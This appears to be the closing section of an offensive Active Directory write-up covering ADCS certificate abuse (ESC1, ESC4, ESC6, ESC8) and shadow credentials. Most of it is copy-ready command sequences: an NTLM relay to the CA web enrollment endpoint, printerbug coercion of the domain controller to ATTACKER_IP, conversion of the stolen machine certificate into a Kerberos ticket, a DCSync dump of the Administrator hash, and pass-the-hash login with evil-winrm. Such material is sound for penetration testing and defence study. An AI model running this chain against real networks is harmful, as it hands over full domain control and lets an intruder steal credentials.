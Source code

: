 ## 💡 Key Takeaways

1. **ADCS is high-value target** - Machine certificates = domain admin
2. **OpenSSL compatibility critical** - Modern Kali has PKCS12 issues
3. **Machine accounts have DCSync** - No privilege escalation needed
4. **NTLM relay still effective** - Even in modern environments
5. **Certificate authentication bypasses** - Many traditional controls
6. **PKINITtools essential** - Converts certificates to Kerberos tickets
7. **Virtual environments solve** - Many compatibility issues
8. **HTTPS vs HTTP matters** - HTTP ADCS endpoints vulnerable

## 🔍 Alternative Attack Vectors

### Shadow Credentials
```bash
# Alternative to ESC8 using pywhisker
python3 pywhisker.py -d DOMAIN.LOCAL -u username -p password --target DC01$ --action add

# Generate TGT with shadow credential
python3 gettgtpkinit.py -cert-pfx USER.pfx -pfx-pass PASSWORD -dc-ip DC_IP DOMAIN.LOCAL/USER /tmp/user.ccache
```

### Other ESC Techniques
```bash
# ESC1 - Template misconfiguration
certipy template -u username@domain.local -p password -dc-ip DC_IP

# ESC4 - Template access control
certipy template -u username@domain.local -p password -dc-ip DC_IP -template TEMPLATE_NAME

# ESC6 - EDITF_ATTRIBUTESUBJECTALTNAME2
certipy req -u username@domain.local -p password -ca CA_NAME -template TEMPLATE -alt administrator@domain.local
```

## 🚀 Quick Reference - ESC8 Attack Chain

### Complete Attack Commands
```bash
# 1. Start ntlmrelayx (Terminal 1)
sudo impacket-ntlmrelayx -t http://CA_SERVER/certsrv/certfnsh.asp --adcs -smb2support --template KerberosAuthentication

# 2. Force authentication (Terminal 2)
python3 printerbug.py DOMAIN/user:"password"@DC_IP ATTACKER_IP

# 3. Setup PKINITtools
cd ~/PKINITtools && source .venv/bin/activate

# 4. Generate TGT from certificate
python3 gettgtpkinit.py -cert-pfx DC01\$.pfx -dc-ip DC_IP 'domain.local/dc01$' /tmp/dc.ccache

# 5. Export ticket and DCSync
export KRB5CCNAME=/tmp/dc.ccache
impacket-secretsdump -k -no-pass -dc-ip DC_IP -just-dc-user Administrator 'DOMAIN.LOCAL/DC01$'@DC01.DOMAIN.LOCAL

# 6. Evil-WinRM with Administrator hash
deactivate
evil-winrm -i dc01.domain.local -u Administrator -H ADMIN_HASH
```